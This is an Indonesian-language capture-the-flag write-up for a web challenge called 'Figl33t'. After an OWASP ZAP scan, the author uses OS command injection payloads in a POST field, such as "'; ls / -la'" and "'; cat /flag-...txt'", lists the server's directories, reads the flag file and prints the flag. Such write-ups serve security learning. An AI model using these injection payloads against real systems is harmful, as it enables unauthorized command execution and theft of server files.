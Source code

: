 # Figl33t
My friend really likes ascii art. So I created this website for her.

## Solution
Kita bisa liat dari source code yang di kasih, terdapat fungsi *exec()* yang dapat digunakan untuk menjalankan kode yang dihasilkan secara dinamis.
Saya mencoba menggunakan Tools yang bernama OWASP ZAP untuk mendapatkan informasi dari website ctf tersebut, ternyata dari hasil scanning OWASP terdapat alert yang menjadi sorotan bagi saya, ternyata benar saat melakukan POST data menggunakan ```'& sleep 15 &'``` saya mengingatkan methode **OS Command Injection.**

![Screenshot](https://raw.githubusercontent.com/ilmndwntr/ForestyHC-CTF-WRITEUP/main/Web%20Exploitation/figl33t/scanning.png)

Saya mencoba untuk melakukan exploit dengan menggubah payloadnya

Payload: ```'& sleep 15 &' >> '; echo hello world'```

Response:

```hello world```

![Screenshot](https://raw.githubusercontent.com/ilmndwntr/ForestyHC-CTF-WRITEUP/main/Web%20Exploitation/figl33t/hello%20world.png)

Setelah berhasil melakukan echo string kita coba melakukan listing directory untuk melihat isi folder dalam server.

Payload: ```'; ls -la'```

Response:
```
/app
total 80
drwxr-xr-x  1 root root  4096 Jun 10 16:22 .
drwxr-xr-x  1 root root  4096 Jun 10 16:22 ..
-rw-r--r--  1 root root    13 Jun 10 16:02 .dockerignore
-rw-r--r--  1 root root   394 Jun 10 16:22 Dockerfile
-rw-r--r--  1 root root   673 Jun 10 16:22 app.js
drwxr-xr-x 60 root root  4096 Jun 10 16:22 node_modules
-rw-r--r--  2 root root 40385 Jun 10 16:22 package-lock.json
-rw-r--r--  1 root root   286 Jun 10 16:02 package.json
drwxr-xr-x  2 root root  4096 Jun 10 16:02 public
```

Ternyata tidak ada file FLAG dalam folder /app jadi coba kita mundur satu langkah

Payload: ```'; ls / -la'```

Response:

```
total 104
drwxr-xr-x    1 root root 4096 Jun 10 16:22 .
drwxr-xr-x    1 root root 4096 Jun 10 16:22 ..
-rwxr-xr-x    1 root root    0 Jun 10 16:22 .dockerenv
drwxr-xr-x    1 root root 4096 Jun 10 16:22 app
drwxr-xr-x    1 root root 4096 May 23 01:49 bin
drwxr-xr-x    2 root root 4096 Apr  2 11:55 boot
drwxr-xr-x    5 root root  320 Jun 10 16:23 dev
drwxr-xr-x    1 root root 4096 Jun 10 16:22 etc
-rw-r--r--    2 root root   41 Jun 10 16:02 flag-3eb436c4-1dd2-4e01-b1f9-af7c2af01481.txt
drwxr-xr-x    1 root root 4096 May 23 09:00 home
drwxr-xr-x    1 root root 4096 May 23 01:49 lib
drwxr-xr-x    2 root root 4096 May 22 00:00 lib64
drwxr-xr-x    2 root root 4096 May 22 00:00 media
drwxr-xr-x    2 root root 4096 May 22 00:00 mnt
drwxr-xr-x    1 root root 4096 May 23 09:03 opt
dr-xr-xr-x 2311 root root    0 Jun 10 16:23 proc
drwx------    1 root root 4096 May 23 09:03 root
drwxr-xr-x    3 root root 4096 May 22 00:00 run
drwxr-xr-x    1 root root 4096 May 23 01:48 sbin
drwxr-xr-x    2 root root 4096 May 22 00:00 srv
dr-xr-xr-x   13 root root    0 Apr 11  2018 sys
drwxrwxrwt    1 root root 4096 Jun 10 16:22 tmp
drwxr-xr-x    1 root root 4096 May 22 00:00 usr
drwxr-xr-x    1 root root 4096 May 22 00:00 var
```

and BOOM ada file bernama flag-3eb436c4-1dd2-4e01-b1f9-af7c2af01481.txt jika sudah ketemu yasudah langsung kita eksekusi nunggu apa lagii?

Payload: ```'; cat /flag-3eb436c4-1dd2-4e01-b1f9-af7c2af01481.txt'```

Response: ```ForestyHC{w0w_u_can_hack_figl33t_7d7c1b}```

![Screenshot](https://media.tenor.com/ehFm2tTFw4UAAAAC/woww-unbelievable.gif)
